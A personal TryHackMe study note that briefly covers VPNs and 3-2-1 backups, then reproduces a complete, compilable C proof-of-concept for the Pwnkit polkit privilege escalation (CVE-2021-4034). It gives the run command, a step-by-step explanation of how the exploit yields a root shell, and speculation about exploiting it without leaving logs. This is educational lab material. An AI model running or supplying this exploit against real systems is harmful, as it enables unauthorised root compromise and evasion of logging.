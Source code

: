 # TryHackMe: Common Attacks & Pwnkit

* **author**:: Nathan Acks  
* **date**:: 2022-02-03

## Common Attacks

### Public Network Safety

I really do wish that guides like this would stop highlighting VPNs — their utility is just really unclear for most people anymore!

### Backups

"3, 2, 1" is a good mnemonic for backups:

* THREE or more copies
* TWO or more different storage devices
* ONE or more offsite backups

Though honestly, this is kind of a "minimum viable backup" strategy, since simply using a cloud service to mirror data between two devices would qualify! (Why? Working data counts as a copy…)

## Pwnkit (CVE-2021-4034)

### Exploitation

Quick-n-dirty Pwnkit exploit:

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit's pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>
"
	"#include <stdlib.h>
"
	"#include <unistd.h>

"
	"void gconv() {}
"
	"void gconv_init() {
"
	"	setuid(0); setgid(0);
"
	"	seteuid(0); setegid(0);
"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");
"
	"	exit(0);
"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

The exploit is then as simple as `gcc $FILE -o exploit; ./exploit`. 

Here's what basically happens on execution:

* The exploit creates the path `GCONV_PATH=.` in the current directory and adds an invalid executable file to it.
* The exploit creates a second directory called `pwnkit` and sets up a malicious shared library designed to be loaded by GLib to translate system messages to the made-up character set "PWNKIT".
* The exploit calls `pkexec` with a NULL argument list (this bit is important, since we need the length of the argument list to be 0 — so, not even to contain the name of `pkexec` itself) *but* with a correctly set up (albeit malicious) environment via `execve()`. Importantly, the first "variable" in the environment is actually the name of the (invalid) executable in the `GCONV_PATH=.` directory.
* Polkit just falls through the loop that it would normally use to walk through the passed-in arguments. This causes what would be pointing to an executable name to instead point to the first environment variable that's passed into `execve()`, which happens to be string `pwnkit`.
* Polkit looks up the malicious executable, finds it in `GCONV_PATH=./pwnkit` (because we set the PATH to that directory), and then tries to replace the executable name with this full path. *Except* that it's still writing to the first element of the environment, which causes `pwnkit` to be replaced by `GCONV_PATH=./pwnkit`.
* Polkit the proceeds to sanitize its environment. When it comes to the invalid SHELL variable this sanitization fails and Polkit throws an error and dies. *But!* Before dying, Polkit tries to *print* the error using a GLib function that dutifully attempts to translate the message into the "PWNKIT" character set. To figure out how to do this, modules are loaded from GCONV_PATH… And we've defined a malicious module to do this that cleans up the exploit files and spawns a root shell (since `pkexec` is SUID root).

This version of the exploit cleans up after itself, but does depend on generating a log message. The Qualsys advisory describing Pwnkit notes that "this vulnerability is also exploitable without leaving any traces in the logs, but this is left as an exercise for the interested reader." My guess is that to do this you'd need to reintroduce a different environment variable that `ld.so` normally strips when calling SUID binaries. (At least, I don't immediately see any place where Polkit is printing something that *isn't* a warning before it nukes its own environment, but then I'm not super-familiar with C and am only quickly skimming the `pkexec` source code.) *Or* perhaps you can do something with the permissions of the `GCONV_PATH=./pwnkit` file to trigger an error that would not be logged. (The trick here would be to do something so that `g_find_program_in_path()` resolves `GCONV_PATH=./pwnkit` but `access()` returns an error; it's not obvious to me how to do this though, or even if it *can* be done!)

It took me a while to figure out why this exploit doesn't occur when `pkexec` is called without any arguments, since it will still fall through the initial argument-parsing loop. The reason this doesn't happen is that `argv[1]` is NULL in this case (the last element of `argv` is always the NULL pointer), so the first string of the environment isn't wrongly loaded *and* and entirely separate code path is triggered before the `GCONV_PATH=./pwnkit` variable would have gotten written into the environment. (It's worth noting that Debian derivatives seem to have removed the `sudo -s` like functionality from `pkexec` entirely, and just display a help message in this case.)

* [arthepsy / CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
* [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
* [polkit / src / programs / pkexec.c (commit 539bf5dc)](https://gitlab.freedesktop.org/polkit/polkit/-/blob/539bf5dcca489534f42798a4500aca4b1a8ec8d0/src/programs/pkexec.c)
